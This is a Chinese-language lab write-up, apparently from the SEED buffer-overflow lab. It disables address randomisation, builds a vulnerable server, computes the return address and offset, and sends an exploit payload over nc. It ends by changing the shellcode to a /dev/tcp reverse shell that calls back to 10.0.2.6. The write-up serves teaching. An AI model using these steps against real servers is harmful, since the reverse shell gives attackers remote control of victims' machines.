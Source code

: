 ```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

进入 server-code 文件夹下，执行命令

```bash
$ make
$ make install
```

然后返回其根目录，执行命令启动 docker

```bash
$ dcbuild
$ dcup
```

进入 attack-code 文件夹，执行

```bash
$ echo hello | nc 10.9.0.5 9090
^C
```

server 显示

<img src="https://i.loli.net/2021/07/10/IfH5Ra8q2jFXxQC.png" alt="image-20210710215643858" style="zoom:50%;" />

我们修改 exploit.py

<img src="https://i.loli.net/2021/07/10/DqTwEHIFm3vZNae.png" alt="image-20210710230024976" style="zoom:50%;" />

其中，

- shellcode 即为刚刚 shellcode_32.py 中的 shellcode
- $\text{ret}=\text{ebp}+n$
  - ebp 就是刚刚 `echo hello` 中得到的 ebp，因为关闭了地址随机化，所以每次都一样
  - $n$ 只要大于等于 $8$ 都可以
- $\text{offset}=$`0xffffd438`$-$`0xffffd3c8`+4

然后执行

```bash
$ ./exploit.py
$ cat badfile | nc 10.9.0.5 9090
```

得到了结果

<img src="https://i.loli.net/2021/07/10/aPJqsFSwKoLlATy.png" alt="image-20210710231454913" style="zoom:50%;" />

> **Reverse shell.** Please modify the command string in your shellcode, so you can get a reverse shell on the target
> server. Please include screenshots and explanation in your lab report.

根据 Task 要求，我们将 shellcode 改为 reverse shell，即第 10 行改为

```shell
   "/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1           *"
```

